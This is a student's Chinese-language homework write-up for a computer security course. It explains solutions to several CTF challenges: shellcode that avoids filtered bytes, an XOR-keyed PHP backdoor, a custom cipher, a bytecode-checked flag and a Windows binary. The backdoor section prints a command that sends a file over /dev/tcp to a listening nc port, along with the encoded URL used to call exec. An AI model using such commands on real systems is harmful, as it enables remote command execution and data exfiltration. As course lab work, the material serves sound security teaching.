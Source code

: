 # Computer Security Homework 0x00
Real name: 涂世昱

Nickname: R07922115

Student ID: R07922115

## shellc0de

這題目的是輸入一段 shellcode 被當成函數來執行, 所輸入的 shellcode 進行 syscall 去執行 /bin/sh 的操作, 而後找到 flag 位置並且輸出。 這題的 script 為 exp.py, 將 asm 打好後經過 pwntools 所轉成的一串 bytecode, 而這段 assembly 所作的事情就是 execve("/bin/sh"), 將此 assembly 用 pwntools 的 asm() 函數包起來就會變成一個字串, 又因為 syscall 這個 assembly 所轉成的字串會被轉換成 '\x0f\x05', "mov rax, 59" (指定 syscall 為 execve) 會變成 'H\xc7\xc0;\x00\x00\x00', 而在 shell.c 當中就會把 0x00, 0x05, 0x0f 判斷, 若是 shellcode 當中出現這幾個 byte 就會終止執行。 於是我將轉出來的 bytecode 用 pwnlib.encoders.encoder.encode 將 shellcode 再轉換成不包含那些 byte 的 shellcode, 但維持原先的 assembly 操作, 最終就可以解出這題。

**script: exp.py**
將 execve(/bin/ls), 的 syscall 用 asm 表示出來後再用 pwntools 轉成 bytecode 的形式之後在 encode 成新的 bytecode 使它不包含 0x00, 0x05, 0x0f, 然後送到 server 即可以得到 shell.

## open my backdoor

進入連結打開門之後會出現 php 程式碼, 仔細觀察後得出結果是它會由 url 輸入的變數, $_GET[87], 來決定所要執行的函數名稱, 且此函數名稱是由四個英文字母所組成的, 就可以聯想出像是 echo, exec, eval, ..., 這些可能, 然後將這些東西和 'd00r' 對照 ascii table 16進位的結果在 xor 就可得出該輸入的 url 內容, 例如

>
'd00r' ^ 'exec' = ['0x1', '0x48', '0x55', '0x11'] -> url: ?87=%01HU%11

, 接著再透過 \$_POST{'#'} (e.g. ${"_\x50\x4f\x53\x54"}{\$c}) 來傳入此函數的參數。 因為最終目標是將 server 的 flag 印出來, 所以勢必先將所在位置的檔案都印出來。首先先考慮 echo($(system(ls))), 但根據 php manual

> Note: Because this is a language construct and not a function, it cannot be called using variable functions. 
> 故此法行不通

接著只好試試 exec(ls), 但問題是該如何把 server 那邊 ls 的結果傳回本地呢? 可以先用 nc 在本地開一個 listening port, 再將 server ls 的結果 redirect 到 /dev/tcp/<ip>/<port> 即可。 就發現 flag 被放在 ~/flag_is_here 故最終的解法為:

>labpc terminal 執行: nc -l 8888 
>url: http://edu-ctf.csie.org:10151/d00r.php?87=%01HU%11
>post: #=cat ~/flag_is_here > /dev/tcp/<lab pc ip>/8888

## encrypt

原以為這題和 m4chine 一樣, 可能把 flag 輸入後它會有什麼反應, 但 cipher 又是拿來做什麼的呢？ 花了一些時間知道原來 cipher 是被加密過的 flag, 然後 encrypt.py 是把助教出的 flag 加密變成 cipher, 而我要做的是就是將此 cipher 解密成 flag。 觀察一下 encrypt.py, 我有兩個取得不到的資訊, key 與 flag, flag 本來就拿不到, 但是 key 是拿來做什麼的？ 只好再仔細看一下程式碼, 發現似乎是 key 會決定 stage1 與 stage2 的執行順序, 且 ``E ** ( I * pi ) + len(key) == 0``, 所以 ``len(key) == 1``, 他有 8 bits, 這些 bits 會決定要執行 stage0 還是 stage1, 隨意執行又發現字串進行兩次 stage0 就會變回原來的樣子, stage1 則否, 那麼是不是有辦法可以把 stage1 反操作, 使它也能變回來 stage1 之前的狀態, 然後仔細探究 stage1, 發現它用 for loop 依序呼叫了 op2, op3, op4 函數 16 次, 又這些 op's, 都是可逆的, 就把他們反操作, 然後將順序到過來再用 for loop 依序跑 16 次就可以得出 stage1 的反函數了。 因為已知總共執行8個 stage0, stage1, 也只有 256 種可能, 於是就可以將我所推出來的反函數用這 256 種排列組合, 用 cipher 輸入, 輸出的結果去尋找有沒有 flag, 最後就能得到 flag 了。  

**script: crack.py**
將 cipher 讀取, 然後將它進行 stage0, stage1 的反操作, stage0, rstage1, 將所有 rstages 的排列組合的結果都輸出。

## m4chine

將程式用 python 執行之後發現它要我輸入 flag, 故判斷這題應該是輸入正確的 flag, 程式應該就會輸出 "you got the flag!", 之類的結果。 由於助教給的是 pyc 執行檔, 除了 decompile 之外也沒其他線索該怎麼把 flag 猜出來, 於是就找到了 [Uncompyle6](https://github.com/rocky/python-uncompyle6), 成功將它 decompile 成原始碼, 在原始碼當中可觀察出我們所輸入的 flag 會經過 push, pop, add, sub, cmp 等操作, 然後根據 code 當中的 bytecode 會決定出這些操作的順序, 所以就可以開始改原始碼, 先猜測 flag 為 "FLAG{abcd}", 將操作和 context 結果都印出來, 就發現它都會在 cmp 之後停止, 且在它之前的操作都是 push, pop, sub, add, 且這些操作都是從 context 的最後一個元素來做操作的, 例如

>./m4chine.py
>
>So, what is the flag ? >> FLAG{abcd}
>
>[70, 76, 65, 71, 123, 97, 98, 99, 100, 125] sub, [70, 76, 65, 71, 123, 97, 98, 99, 25]
>
>[70, 76, 65, 71, 123, 97, 98, 99, 25] push 8, [70, 76, 65, 71, 123, 97, 98, 99, 25, 8]
>
>[70, 76, 65, 71, 123, 97, 98, 99, 25, 8] add, [70, 76, 65, 71, 123, 97, 98, 99, 33]
>
>cmp 33 100
>
>[70, 76, 65, 71, 123, 97, 98, 99, 0]
>
>You fail, try again



我們所輸入的 flag 會變成 ascii 的十進位結果存到 context 當中, 首先,  sub 會將 context 最後兩個元素相減然後再放到最後一個位置, push 8 則會把 8 push 到後面, add 則是將最後兩元素相加然後將結果放到最後一個位置, 最後 cmp 則是把 context 最後一個元素, 33, 和 100 比較, 發現他們兩個不相等則終止執行。 所以我們就可以猜測因為最後一個字一定是 '}', 所以倒數第二個字應該要是 '!' 最後才能和 100 相等, 所以下次就以 'FLAG{abcd!}' 做嘗試, 最終就可以完全把 flag 推測出來了。

## Winmagic
從原始碼可以看出 password 是個隨機的變數, 只要輸入正確得 magic, 使得 ``password == magic``, 似乎就能得到 flag, 於是就用 ida pro 找到 get flag 函數當中, 在 cmp 的那行下 breakpoint, 然後執行它使它停在那, 將 register 的值改成符合 cmp 條件的值, 就順利的把 flag 印出來了。

